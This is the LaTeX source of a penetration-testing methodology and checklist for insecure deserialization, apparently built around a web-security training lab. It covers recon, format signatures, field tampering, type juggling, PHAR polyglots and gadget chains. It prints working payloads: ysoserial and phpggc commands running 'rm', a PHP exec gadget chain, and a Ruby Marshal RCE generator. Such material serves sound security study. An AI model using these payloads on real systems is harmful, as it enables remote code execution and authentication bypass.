% =================================================================
% FILE: methodology_checklist.tex
% PURPOSE: Standalone methodology and checklist for Insecure Deserialization
% =================================================================

\documentclass[11pt]{article}

% ---------------------------------------------------------------
% PREAMBLE
% ---------------------------------------------------------------
\usepackage[a4paper,margin=2cm]{geometry}
\usepackage{fontspec}
\setmainfont{DejaVu Serif}
\setmonofont{DejaVu Sans Mono}

\usepackage{listings}
\usepackage{xcolor}
\usepackage{enumitem}
\usepackage{titlesec}
\usepackage{hyperref}
\usepackage[breakable,skins]{tcolorbox}
\usepackage{fancyhdr}
\usepackage{amssymb}
\usepackage{tikz}
\usetikzlibrary{arrows.meta,positioning,shapes.geometric,fit,backgrounds}

% Colors
\definecolor{codebg}{RGB}{245,245,245}
\definecolor{httpblue}{RGB}{20,60,110}
\definecolor{causeorange}{RGB}{180,80,0}
\definecolor{checkgreen}{RGB}{0,120,0}

% Listings styles
\lstdefinestyle{code}{
    backgroundcolor=\color{codebg},
    basicstyle=\ttfamily\small,
    frame=single,
    rulecolor=\color{gray},
    columns=fullflexible,
    breaklines=true,
    breakatwhitespace=false,
    showstringspaces=false,
    language=Python,
    keywordstyle=\color{httpblue}\bfseries,
    commentstyle=\color{causeorange}\itshape,
    stringstyle=\color{teal},
    morekeywords={class,public,private,protected,function,new,static,final,void,String,readObject,writeObject,unserialize,serialize,__wakeup,__sleep,__destruct,__construct,__get,__toString,exec,system,pickle,loads,dumps,Marshal,load,require},
}

\lstset{escapeinside={(*@}{@*)}}

% Headings
\titleformat{\section}{\Large\bfseries\color{httpblue}}{\thesection}{1em}{}
\titleformat{\subsection}{\large\bfseries}{\thesubsection}{1em}{}
\titleformat{\subsubsection}{\normalsize\bfseries\itshape}{\thesubsubsection}{1em}{}

\pagestyle{fancy}
\fancyhf{}
\lhead{Insecure Deserialization -- Methodology \& Checklist}
\rhead{\thepage}
\setlength{\headheight}{14pt}

% tcolorbox environments
\newtcolorbox{causebox}{
    breakable, colback=orange!5, colframe=causeorange,
    title=Root Cause (Programming Perspective),
    fonttitle=\bfseries, coltitle=white
}

\newtcolorbox{checklistbox}{
    breakable, colback=green!5, colframe=checkgreen,
    title=Checklist,
    fonttitle=\bfseries, coltitle=white
}

\newtcolorbox{stepbox}[1]{
    breakable, colback=blue!4, colframe=httpblue,
    title=Step #1,
    fonttitle=\bfseries, coltitle=white
}

\hypersetup{colorlinks=true, linkcolor=httpblue, urlcolor=httpblue, citecolor=httpblue}

\setlist[itemize]{leftmargin=*}
\setlist[enumerate]{leftmargin=*}

% Custom commands
\newcommand{\tool}[1]{\textsf{\textbf{#1}}}

% ---------------------------------------------------------------
\title{\textbf{Insecure Deserialization}\\Methodology \& Checklist}
\author{Eyad Islam El-Taher}
\date{}

\begin{document}
\maketitle
\tableofcontents
\newpage

% =================================================================
\section{Methodology Overview}
% =================================================================

\begin{itemize}
    \item \textbf{Goal:} Identify, confirm, and exploit insecure deserialization vulnerabilities across PHP, Java, Ruby, and Python stacks.
    \item \textbf{Approach:} Systematic reconnaissance → format identification → payload crafting → exploitation → impact confirmation.
    \item \textbf{Key mindset:} Deserialization vulnerabilities are \textit{code-reuse} attacks — you're not injecting new code, you're steering existing classes into unintended combinations.
\end{itemize}


\begin{tikzpicture}[node distance=1.2cm, every node/.style={font=\small, align=center}]
    \node[draw, rounded corners, fill=blue!5, minimum width=2.8cm, minimum height=0.9cm] (recon) {Reconnaissance\\\tiny{Find all inputs}};
    \node[draw, rounded corners, fill=blue!5, minimum width=2.8cm, minimum height=0.9cm, right=1.8cm of recon] (format) {Format ID\\\tiny{Signature matching}};
    \node[draw, rounded corners, fill=blue!5, minimum width=2.8cm, minimum height=0.9cm, right=1.8cm of format] (probe) {Probe\\\tiny{Field tampering}};
    \node[draw, rounded corners, fill=orange!10, draw=causeorange, minimum width=2.8cm, minimum height=0.9cm, below=1.2cm of probe] (exploit) {Exploit\\\tiny{Gadget chains}};
    \node[draw, rounded corners, fill=blue!5, minimum width=2.8cm, minimum height=0.9cm, below=1.2cm of format] (confirm) {Confirm\\\tiny{OOB verification}};
    
    \draw[-{Latex[length=2mm]}] (recon) -- (format);
    \draw[-{Latex[length=2mm]}] (format) -- (probe);
    \draw[-{Latex[length=2mm]}] (probe) -- (exploit);
    \draw[-{Latex[length=2mm]}] (exploit) -- (confirm);
\end{tikzpicture}

% =================================================================
\section{Phase 1: Reconnaissance}
% =================================================================

\subsection{Identify All Input Vectors}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] \textbf{Cookies:} Every cookie that isn't a plain session ID — inspect all \texttt{Set-Cookie} and \texttt{Cookie} headers
    \item[\checkmark] \textbf{URL parameters:} Look for Base64-encoded, hex-encoded, or otherwise obfuscated parameters
    \item[\checkmark] \textbf{Request bodies:} Check \texttt{Content-Type: application/x-java-serialized-object}, JSON payloads with \texttt{@type} fields
    \item[\checkmark] \textbf{File uploads:} Identify any upload functionality that processes files on the server
    \item[\checkmark] \textbf{Message queues / RPC:} Any endpoint that accepts raw binary data or complex objects
    \item[\checkmark] \textbf{Remember me / auto-login tokens:} Often contain serialized user objects
    \item[\checkmark] \textbf{API keys / access tokens:} May be serialized objects
\end{itemize}
\end{checklistbox}

\subsection{Leaked Source Discovery}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Try appending \texttt{~}, \texttt{.bak}, \texttt{.old}, \texttt{.backup}, \texttt{.php~} to common file paths
    \item[\checkmark] Check \texttt{/.git/HEAD}, \texttt{/.svn/entries}, \texttt{/.env} for exposed version control
    \item[\checkmark] Look for \texttt{/cgi-bin/}, \texttt{/backup/}, \texttt{/libs/}, \texttt{/src/} directories
    \item[\checkmark] Request \texttt{/phpinfo.php}, \texttt{/info.php}, \texttt{/debug}, \texttt{/server-status}
    \item[\checkmark] Check \texttt{/robots.txt} for hidden paths
    \item[\checkmark] Use Burp's \textit{Content Discovery} tool to brute-force common paths
    \item[\checkmark] Review JavaScript files for hardcoded paths or endpoints
\end{itemize}
\end{checklistbox}

% =================================================================
\section{Phase 2: Format Identification}
% =================================================================

\subsection{Signature Recognition}

\begin{center}
\begin{tabular}{|l|l|l|l|}
\hline
\textbf{Language} & \textbf{Binary/Text Prefix} & \textbf{Base64 Prefix} & \textbf{Burp Inspector Hint} \\
\hline
PHP (serialize) & \texttt{O:}, \texttt{a:}, \texttt{s:}, \texttt{i:}, \texttt{b:} & Varies & Human-readable object notation \\
Java & \texttt{ac ed 00 05} (hex) & \texttt{rO0} & Shows as \texttt{AC ED} in hex view \\
Ruby (Marshal) & \verb|\x04\x08| & \texttt{BAh} & Starts with \texttt{0x04 0x08} \\
Python (pickle) & \texttt{(lp0}, \texttt{S'..'} & Varies & Protocol-specific opcodes \\
.NET BinaryFormatter & \verb|\x00\x01\x00\x00\x00| & \texttt{AAEAAAD} & \texttt{0x00 0x01 0x00 0x00 0x00} \\
\hline
\end{tabular}
\end{center}

% =================================================================
\section{Phase 3: Probing}
% =================================================================

\subsection{Initial Field Tampering}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Decode the serialized payload to understand its structure
    \item[\checkmark] Identify predictable fields: \texttt{username}, \texttt{admin}, \texttt{access\_token}, \texttt{role}, \texttt{id}
    \item[\checkmark] Flip a boolean value (e.g., \texttt{b:0} → \texttt{b:1})
    \item[\checkmark] Change a string value to test for direct impact
    \item[\checkmark] Modify a numeric value (e.g., \texttt{i:1} → \texttt{i:9999})
    \item[\checkmark] \textbf{Always recalculate length prefixes} when editing PHP serialized strings
\end{itemize}
\end{checklistbox}

\subsection{Probing for Deserialization Execution}

\begin{itemize}
    \item \textbf{Technique:} Send a malformed serialized object and observe the response
    \item \textbf{Expected signs:}
    \begin{itemize}
        \item \texttt{ClassCastException}, \texttt{TypeError}, \texttt{unserialize() error}
        \item Stack traces revealing framework/library names
        \item Error messages containing class names or method names
        \item HTTP 500 with detailed exception
    \end{itemize}
    \item \textbf{What to look for:}
    \begin{itemize}
        \item Exact class names (e.g., \texttt{org.apache.commons.collections...})
        \item Framework version information (e.g., \texttt{Symfony 4.3.6})
        \item Library names (e.g., \texttt{CommonsCollections}, \texttt{Monolog}, \texttt{Guzzle})
        \item PHP version, Java version, Ruby version
    \end{itemize}
\end{itemize}

\begin{causebox}
A malformed payload that triggers a deserialization error is \textit{excellent} news — it confirms the sink exists and often reveals the exact framework and version needed for gadget chain selection.
\end{causebox}

% =================================================================
\section{Phase 4: Exploitation}
% =================================================================

\subsection{Decision Tree: Which Exploit Path to Take?}


\begin{tikzpicture}[node distance=1.2cm, every node/.style={font=\small}]
    \node[draw, rounded corners, fill=blue!5, minimum width=3.5cm, minimum height=0.8cm, align=center] (start) {Sensitive fields\\ in payload?};
    \node[draw, rounded corners, fill=blue!5, minimum width=3.5cm, minimum height=0.8cm, align=center, right=1.8cm of start] (fields) {Yes → Direct\\ field tampering};
    \node[draw, rounded corners, fill=blue!5, minimum width=3.5cm, minimum height=0.8cm, align=center, below=1.2cm of start] (type) {Type juggling\\ possible?};
    \node[draw, rounded corners, fill=blue!5, minimum width=3.5cm, minimum height=0.8cm, align=center, left=1.8cm of type] (gadget) {Known\\ framework?};
    \node[draw, rounded corners, fill=orange!10, draw=causeorange, minimum width=3.5cm, minimum height=0.8cm, align=center, below=1.2cm of type] (custom) {Custom gadget\\ chain required};
    
    \draw[-{Latex[length=2mm]}] (start) -- (fields);
    \draw[-{Latex[length=2mm]}] (start) -- (type);
    \draw[-{Latex[length=2mm]}] (type) -- (custom);
    \draw[-{Latex[length=2mm]}] (type) -- (gadget);
\end{tikzpicture}

\subsection{Exploitation Paths}

\subsubsection{Path A: Direct Field Tampering}
\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Decode the payload (Base64, URL-decoding, hex-decoding)
    \item[\checkmark] Edit the relevant field directly
    \item[\checkmark] If editing PHP strings: \textbf{update the length prefix} (e.g., \texttt{s:6:"wiener"} → \texttt{s:5:"admin"})
    \item[\checkmark] Re-encode (Base64, URL-encode) and send
    \item[\checkmark] Verify impact by accessing protected resources
\end{itemize}
\end{checklistbox}

\subsubsection{Path B: Type Juggling (PHP <= 7.x)}
\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Identify loose comparison (\texttt{==} instead of \texttt{===}) in source or from behavior
    \item[\checkmark] Replace a string comparison value with integer \texttt{0}: \texttt{s:32:"<token>"} → \texttt{i:0;}
    \item[\checkmark] When comparing \texttt{0 == "any-non-numeric-string"}, PHP returns \texttt{true}
    \item[\checkmark] This can bypass token checks, password verification, and authentication logic
    \item[\checkmark] \textbf{Note:} PHP 8 changed string-to-number comparison semantics, so this is PHP 7.x only
\end{itemize}
\end{checklistbox}

\subsubsection{Path C: Repurpose Existing Functionality}
\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Map all fields in the serialized object to their usage in the application
    \item[\checkmark] Identify fields used in filesystem operations (\texttt{avatar\_link}, \texttt{file\_path}, \texttt{log\_file})
    \item[\checkmark] Identify fields used in database queries (\texttt{id}, \texttt{name}, \texttt{category})
    \item[\checkmark] Repoint the field to a target path (e.g., \texttt{/home/carlos/morale.txt})
    \item[\checkmark] Trigger the associated function (e.g., account deletion, file download, logging)
\end{itemize}
\end{checklistbox}

\subsubsection{Path D: Pre-Built Gadget Chains}

\textbf{Tools:}
\begin{itemize}
    \item \tool{ysoserial} — Java gadget chains
    \item \tool{phpggc} — PHP gadget chains
    \item \tool{Universal Ruby Gadget} — documented chains for Ruby
\end{itemize}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Identify the framework from error messages (e.g., \texttt{Symfony 4.3.6})
    \item[\checkmark] \textbf{Java:} \texttt{/usr/lib/jvm/java-8-openjdk/bin/java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64}
    \item[\checkmark] \textbf{PHP:} \texttt{./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64}
    \item[\checkmark] \textbf{Ruby:} Use documented \texttt{Gem::Requirement} / \texttt{Net::BufferedIO} chain
    \item[\checkmark] If payload is signed (HMAC/encrypted), leak or crack the secret first
    \item[\checkmark] Try multiple chain variants if the first fails (different versions)
\end{itemize}
\end{checklistbox}

\subsubsection{Path E: Custom Gadget Chain Construction}

When no pre-built chain exists, construct your own:

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] \textbf{Find the trigger:} Identify a magic method reached during deserialization
    \begin{itemize}
        \item PHP: \texttt{\_\_wakeup()}, \texttt{\_\_destruct()}, \texttt{\_\_toString()}, \texttt{\_\_get()}, \texttt{\_\_set()}
        \item Java: \texttt{readObject()}, \texttt{readResolve()}, \texttt{finalize()}
        \item Ruby: \texttt{init}, \texttt{method\_missing}
    \end{itemize}
    \item[\checkmark] \textbf{Trace data flow:} Follow the path from the magic method to a dangerous sink
    \begin{itemize}
        \item Dangerous sinks: \texttt{exec}, \texttt{system}, \texttt{call\_user\_func}, \texttt{eval}, SQL concatenation, file I/O
    \end{itemize}
    \item[\checkmark] \textbf{Find the missing link:} Identify how to bridge from one gadget to another
    \item[\checkmark] \textbf{Build the chain:} Wire gadgets together in serialized form
    \item[\checkmark] \textbf{Test iteratively:} Use safe commands (e.g., \texttt{touch /tmp/test}) before destructive ones
\end{itemize}
\end{checklistbox}

\subsection{Example: PHP Custom Chain Construction}

Given these classes:
\begin{lstlisting}[style=code]
class CustomTemplate {
    public function __wakeup() {
        $this->build_product();
    }
    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public function __construct($type, $desc) {
        $this->desc = $desc->$type;  // Dynamic property read
    }
}

class DefaultMap {
    public function __get($name) {
        return call_user_func($this->callback, $name);  // RCE sink
    }
}
\end{lstlisting}

Chain construction:
\begin{lstlisting}[style=code]
// Step 1: Create the sink gadget (DefaultMap)
$sink = new DefaultMap();
$sink->callback = "exec";

// Step 2: Create the bridge (CustomTemplate)
$trigger = new CustomTemplate();
$trigger->default_desc_type = "rm /home/carlos/morale.txt";  // Command
$trigger->desc = $sink;  // Wire the sink into the trigger

// Step 3: Serialize and send
echo base64_encode(serialize($trigger));
\end{lstlisting}

\subsubsection{Path F: PHAR Deserialization (PHP)}
\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Identify file upload functionality (avatars, images, documents)
    \item[\checkmark] Build a PHAR archive with the malicious object as metadata
    \item[\checkmark] Wrap PHAR in valid JPEG/GIF header (polyglot) to bypass upload filters
    \item[\checkmark] Upload as avatar/image
    \item[\checkmark] Trigger via \texttt{phar://} filesystem wrapper in any filesystem function
    \item[\checkmark] Common triggers: \texttt{file\_exists()}, \texttt{is\_dir()}, \texttt{getimagesize()}, \texttt{unlink()}
\end{itemize}
\end{checklistbox}

\begin{causebox}
\texttt{phar://} deserializes archive metadata \textit{implicitly} — the vulnerable code never calls \texttt{unserialize()} directly. This is the most dangerous edge case because it bypasses standard security reviews that check for \texttt{unserialize()} calls.
\end{causebox}

% =================================================================
\section{Phase 5: Impact Confirmation}
% =================================================================

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] \textbf{Out-of-band verification:} Don't trust HTTP status codes alone
    \item[\checkmark] \textbf{File deletion:} Check that the target file is actually gone (e.g., request it directly)
    \item[\checkmark] \textbf{Command execution:} Use \texttt{ping <collaborator>}, \texttt{nslookup}, \texttt{curl} to confirm out-of-band
    \item[\checkmark] \textbf{SQL injection:} Use UNION queries that return distinct values to prove extraction
    \item[\checkmark] \textbf{Time-based:} Use \texttt{sleep(10)} commands to confirm execution via timing
    \item[\checkmark] \textbf{Log evidence:} Check server logs, application logs for signs of execution
    \item[\checkmark] \textbf{Burp Collaborator:} Use DNS/HTTP interactions for out-of-band confirmation
\end{itemize}
\end{checklistbox}

% =================================================================
\section{Checklist: Complete Testing Workflow}
% =================================================================

\begin{checklistbox}
\subsection*{Phase 1: Reconnaissance}
\begin{itemize}
    \item[$\square$] Map all endpoints that accept user input (cookies, parameters, bodies, files)
    \item[$\square$] Check for leaked source via \texttt{~}, \texttt{.bak}, \texttt{/backup/}, \texttt{/.git/}
    \item[$\square$] Check \texttt{/phpinfo.php}, \texttt{/info.php}, \texttt{/debug}, \texttt{/cgi-bin/}
    \item[$\square$] Review JavaScript files for hidden endpoints
    \item[$\square$] Use Burp Content Discovery to brute-force hidden paths
\end{itemize}

\subsection*{Phase 2: Format Identification}
\begin{itemize}
    \item[$\square$] Base64-decode every cookie and parameter
    \item[$\square$] URL-decode every parameter value
    \item[$\square$] Hex-decode any payloads with hex-like patterns
    \item[$\square$] Identify format signatures: PHP (\texttt{O:}), Java (\texttt{ac ed}/\texttt{rO0}), Ruby (\texttt{BAh}), Python (opcodes)
    \item[$\square$] Use Burp Inspector to detect serialized formats automatically
\end{itemize}

\subsection*{Phase 3: Probing}
\begin{itemize}
    \item[$\square$] Test field tampering on \textit{every} identifiable field
    \item[$\square$] Flip booleans: \texttt{b:0} → \texttt{b:1}
    \item[$\square$] Change strings: \texttt{s:6:"wiener"} → \texttt{s:13:"administrator"}
    \item[$\square$] Update length prefixes when editing PHP strings
    \item[$\square$] Send malformed payloads to trigger error messages
    \item[$\square$] Observe errors for framework/version leakage
\end{itemize}

\subsection*{Phase 4: Exploitation Path Selection}
\begin{itemize}
    \item[$\square$] Sensitive fields present? → Direct field tampering
    \item[$\square$] PHP loose comparison? → Type juggling (PHP <= 7.x)
    \item[$\square$] Existing functionality can be repurposed? → Field redirection
    \item[$\square$] Framework known? → Pre-built gadget chain (ysoserial/phpggc)
    \item[$\square$] Framework unknown? → Custom gadget chain construction
    \item[$\square$] File upload available? → PHAR deserialization (PHP)
\end{itemize}

\subsection*{Phase 5: Execution}
\begin{itemize}
    \item[$\square$] Encode payload correctly (Base64, URL-encoding)
    \item[$\square$] Replace original payload with crafted payload
    \item[$\square$] If signed, leak/recover the signing secret first
    \item[$\square$] Send request and observe response
    \item[$\square$] \textbf{Always test with safe commands first} (e.g., \texttt{touch /tmp/test})
\end{itemize}

\subsection*{Phase 6: Confirmation}
\begin{itemize}
    \item[$\square$] Verify out-of-band (Burp Collaborator, time-based, file access)
    \item[$\square$] Confirm file deletion by requesting the file
    \item[$\square$] Confirm RCE by checking command output or side effects
    \item[$\square$] Document the exact payload and conditions
    \item[$\square$] Test on multiple endpoints to confirm reproducibility
\end{itemize}
\end{checklistbox}

% =================================================================
\section{Tools Reference}
% =================================================================

\begin{center}
\begin{tabular}{|l|l|}
\hline
\textbf{Tool} & \textbf{Purpose}  \\
\hline
Burp Suite Decoder & Decode Base64/URL/Hex  \\
Burp Inspector & View decoded values  \\
Hackvertor (extension) & On-the-fly encoding  \\
ysoserial & Java gadget chains  \\
phpggc & PHP gadget chainsd \\
SerializationDumper & Parse Java serialized streams  \\
phar-jpg-polyglot & PHAR/JPEG polyglot generator  \\
PayloadsAllTheThings & Reference payloads  \\
\hline
\end{tabular}
\end{center}

% =================================================================
\section{Quick Reference: Common Payloads}
% =================================================================

\subsection{PHP type juggling (swap string for integer)}
\begin{lstlisting}[style=code]
# Minimal PHP object injection
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}

# PHP type juggling (swap string for integer)
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
\end{lstlisting}


\subsection{Ruby Marshal Payload Generator}
\begin{lstlisting}[style=code]
require 'base64'
require 'net/buffered_io'
require 'gem/package/tar_reader'

# Construct gadget chain
i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")

n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', "rm /home/carlos/morale.txt")

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
\end{lstlisting}

% =================================================================
\section{Common Pitfalls \& How to Avoid Them}
% =================================================================

\begin{itemize}
    \item \textbf{Pitfall:} Forgetting to update length prefixes when editing PHP strings
    \begin{itemize}
        \item \textbf{Solution:} Always recalculate \texttt{s:6:"wiener"} → \texttt{s:13:"administrator"}
        \item Use Hackvertor's \verb|@length@| tag to compute automatically
    \end{itemize}
    
    \item \textbf{Pitfall:} Only testing \texttt{GET} parameters, missing \texttt{POST} body or cookies
    \begin{itemize}
        \item \textbf{Solution:} Enumerate \textit{all} inputs in Burp's Target → Site Map
    \end{itemize}
    
    \item \textbf{Pitfall:} Assuming a 500 error means the exploit failed
    \begin{itemize}
        \item \textbf{Solution:} \texttt{\_\_destruct()} runs \textit{even if} deserialization throws an error
        \item Check for side effects (file deletion, command execution) despite error responses
    \end{itemize}
    
    \item \textbf{Pitfall:} Using destructive commands in initial tests
    \begin{itemize}
        \item \textbf{Solution:} Use harmless commands first: \texttt{touch /tmp/test}, \texttt{ping <collaborator>}
    \end{itemize}
    
    \item \textbf{Pitfall:} Not checking for signed/encrypted cookies
    \begin{itemize}
        \item \textbf{Solution:} Look for additional \texttt{hmac}, \texttt{sig}, \texttt{signature} fields in cookies
        \item If signed, you need to leak the secret first (via source disclosure, debug pages)
    \end{itemize}
    
    \item \textbf{Pitfall:} Missing PHAR deserialization because no \texttt{unserialize()} call visible
    \begin{itemize}
        \item \textbf{Solution:} Check for any \texttt{phar://} usage anywhere — it triggers deserialization
        \item Test by uploading a PHAR polyglot and triggering with \texttt{phar://path}
    \end{itemize}
\end{itemize}


\end{document}